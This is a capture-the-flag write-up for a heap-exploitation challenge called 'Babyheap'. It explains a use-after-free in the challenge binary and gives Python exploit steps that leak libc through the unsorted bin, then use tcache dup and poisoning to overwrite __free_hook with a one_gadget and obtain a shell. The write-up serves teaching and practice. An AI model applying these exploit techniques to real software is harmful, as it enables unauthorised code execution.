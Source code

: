 # Babyheap
### Description
You can never get away from these pesky baby challenges. So I thought, if you can't beat them, join them!

#### Author
Tango
#### Points and solves
498 points, and 18 solves.


We are given a classic heap exploitation binary, where we have the ability to malloc, free and show chunks in the memory.
The binary is has a ```while true``` that runs these options:
```
1. Allocate some memory
2. Show data at memory location
3. Free some memory
4. Exit
```

1. Allocating data lets us choose the size, contents and index of the chunk. There can be at most 8 chunks.
chunk addresses are stored in an array named ```heap_buf``` in the ```bss``` segment.
2. Printing data, lets us choose an index from the ```heap_buf``` array and prints its' contents.
3. Free, lets us free a chunk from the ```heap_buf``` array.
4. Exits.

## The vulnerabilities:
1. Let's take a look at the ```freeing``` function:
```c
void freeing(void)
{
  int iVar1;
  long in_FS_OFFSET;
  undefined local_15;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("What index would you like to free?");
  iVar1 = __isoc99_scanf(&DAT_00102031,&local_14);
  if (iVar1 == 0) {
    puts("Please enter an integer.");
    __isoc99_scanf(&DAT_0010204d,&local_15);
  }
  else {
    if (local_14 < 8) {
      free(*(void **)(heap_buf + (long)local_14 * 8));
    }
    else {
      puts("Can\'t reach that index!");
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
Well this function indeed frees a chunk but doesn't set the ```heap_buf``` at that index to ```0```, giving us use after free.

2. The libc version of the challenge is 2.27 so we have some freedom doing common heap exploits since this isn't libc >= 2.29.
In particular, we will use unsorted bin libc leak and tcahce dup and tcache poisoning for our advantage.
## Our convenience functions:
```python
def alloc(index, size, content):
    p.sendlineafter("Exit", "1")
    p.sendlineafter("?", str(size))
    p.sendlineafter("?", str(index))
    p.sendlineafter("?",  content)

def free(index):
    p.sendlineafter("Exit", "3")
    p.sendlineafter("?", str(index))

def show(index):
    p.sendlineafter("Exit", "2")
    p.sendlineafter("?", str(index))
```

## Leaking libc
First of all, I want to leak libc base address and it is possible to do that by using unsorted bin vulnerability.
Unsorted bin, is a circular list, with both ends pointing into ```main_arena``` which are fixed variables in libc.
So, if we can leak one of the ends of this circular list we can determine libc base.

```python
alloc(0, 0x2000, 8*b"A")
alloc(1, 0x2000, 8*b"B")
free(0)
show(0)
```
We alloc two large chunks, when we free the first one it'll end up of the unsorted bin.
If I had allocated only one large chunk, upon free, it'll consolidate with the ```top``` chunk, therefore we must allocate two chunks.
Now because we have a use after free, when we so the contents of the first chunk we actually leak the ```fd``` pointer of the chunk in the unsorted bin.
This gives us a known address with a fixed offset of ```0x3ebca0``` to libc base.

## Quick overview of tcache dup & poisoning
Freed small chunks are stored in the ```tcache```, and upon ```maloc```ing chunks of some size, ```malloc``` will first lookup in the ```tcache```
Chunks in the tcache are structs that look like: 
```c
strcut chunk {
	INTERNAL_SIZE_T mchunk_prev_size;
	INTERNAL_SIZE_T mchunk_size;
	struct malloc_chunk* fd; //Pointer to the next chunk in the tcache.
	struct malloc_chunk* bk; //Pointer to the previous chunk in the tcahce.
}
```
Where the pointer to the chunk actually point to the ```fd``` member.
Now, imagine:
```c
malloc(0x10) // chunk #1
free(chunk1) // tcache: chunk1
free(chunk1) // tcache: chunk1 -> chunk1
```
The tcache will have the two same chunks, where the first chunk ```fd``` member points to itself.
Now,
```c
malloc(0x10) // we get the same chunk1, the first in the tcache.
write(chunk1, address) // write some address to the newly malloc'd chunk. tcache: chunk1 -> address
malloc(0x10) // we get the same chunk2, the second in the tcache.
malloc(0x10) // we get a chunk that points to address!
```
The point is, that writing to chunk, actually override the ```fd``` member, and upon next allocation, ```malloc``` will be tricked and allocate the chunk pointed by the ```fd``` pointer of ```chunk1```

So,
```python
alloc(2, 0x10, 8*b"A")
alloc(3, 0x10, 8*b"B")
free(2)
free(2)

alloc(5, 0x10, p64(libc.sym["__free_hook"]))
alloc(6, 0x10, 8*b"C")
alloc(7, 0x10, p64(libc.address + 0x4f3c2))
```
allocating chunk 5 and writing ```__free_hook``` to it, will poison the tcache.
allocating chunk 6 will give us the 2nd ```free(2)``` entry from the tcache.
Chunk 7 will point to ```__free_hook```, and we write the address of a ```one_gadget``` there.

Now simply ```free(0)``` and we get shell.

